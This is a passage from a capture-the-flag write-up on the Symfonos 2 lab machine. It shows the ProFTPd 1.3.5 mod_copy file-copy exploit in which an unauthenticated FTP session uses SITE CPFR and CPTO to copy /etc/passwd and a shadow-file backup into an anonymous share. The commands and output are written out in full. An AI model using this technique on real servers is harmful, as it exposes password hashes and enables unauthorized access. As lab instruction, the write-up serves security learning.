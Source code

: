 - `cat log.txt` reveals some useful information like usernames, paths and some commands by `root` user. Below, I have added the information that I felt was relevant. 

```
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
root@symfonos2:~# cat /etc/samba/smb.conf

[anonymous]
   path = /home/aeolus/share
   browseable = yes
   read only = yes
   guest ok = yes
   
# Normally, we want files to be overwriteable.
AllowOverwrite		on

# We want clients to be able to login with "anonymous" as well as "ftp"
  UserAlias			anonymous ftp
```

---

### Exploitation

#### FTP Exploitation 

ProFTPd 1.3.5 => File Copy Exploit

```
/usr/share/exploitdb/exploits/linux/remote/36742.txt
```

- `/home/aeolus/share/backups` - path to that anonymous share we got from `log.txt`
- `ftp 10.0.2.11` => hit enter twice to get unauthenticated user access. This unauthenticated access is enough to exploit this FTP file copy vulnerability.

```
ftp 10.0.2.11
Connected to 10.0.2.11.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.0.2.11]
Name (10.0.2.11:kali): 
331 Password required for kali
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> site help
214-The following SITE commands are recognized (* =>'s unimplemented)
 CPFR <sp> pathname
 CPTO <sp> pathname
 HELP
 CHGRP
 CHMOD
214 Direct comments to root@symfonos2
---
ftp> site cpfr /etc/passwd
350 File or directory exists, ready for destination name
ftp> site cpto /home/aeolus/share/passwd
250 Copy successful
ftp> site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
ftp> site cpto /home/aeolus/share/shadow.bak
250 Copy successful
ftp> 
```
